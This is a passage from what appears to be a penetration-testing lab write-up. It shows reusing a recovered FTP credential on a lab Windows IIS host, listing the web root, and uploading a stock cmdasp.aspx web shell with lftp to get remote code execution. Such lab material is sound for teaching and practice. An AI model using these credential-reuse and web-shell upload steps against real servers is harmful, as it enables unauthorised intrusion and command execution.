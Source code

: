 ☝️ **Important learning points:**

1. Git servers are source repositories, there's a good chance you'd find something important
2. Click on everything you can see, I actually missed this because I didn't click on the `Repository Browser` tab

## 2.4. Re-visiting the FTP service

Now that we have a credential, let's try to see where it can be used

```console
┌──(root㉿kali)-[~]
└─# ftp ftp://don:Quack123@10.0.88.33:2121
Connected to 10.0.88.33.
220 Microsoft FTP Service
331 Password required
230-Directory has 20,271,869,952 bytes of disk space available.
230 User logged in.
Remote system type is Windows_NT.
200 Type set to I.
ftp> dir
229 Entering Extended Passive Mode (|||49404|)
150 Opening ASCII mode data connection.
10-26-21  09:49PM       <DIR>          git
10-26-21  10:15PM       <DIR>          aspnet_client
10-26-21  09:28PM                52264 bkg-gry.jpg
11-29-22  07:34PM                 1400 cmdasp.aspx
10-26-21  09:28PM                53611 iis-8.png
10-26-21  09:28PM                 1398 iisstart.htm
10-26-21  09:28PM                 2103 msweb-brand.png
10-26-21  09:28PM                 7829 ws8-brand.png
226-Directory has 20,271,869,952 bytes of disk space available.
226 Transfer complete.
```

> You would naturally want to try RDP-ing to the target with the credentials, it won't work: `Don` is a valid local user, but doesn't have the rights to logon from RDP
>
> The `FreeRDP` or `Remmina` on Kali doesn't tell you this, logging in using `mstsc` from Windows will tell you this

# 3. Getting RCE

The `git` directory and `iisstart.htm` in the ftp listing shows that we have access to the web server root, we can try to get a web shell

```console
┌──(root㉿kali)-[~]
└─# lftp ftp://don:Quack123@10.0.88.33:2121 -e "put /usr/share/webshells/aspx/cmdasp.aspx; quit"
1400 bytes transferred
```

![image](https://user-images.githubusercontent.com/90442032/204712450-ab61466e-a947-47f8-baa5-8bd5aef51e23.png)
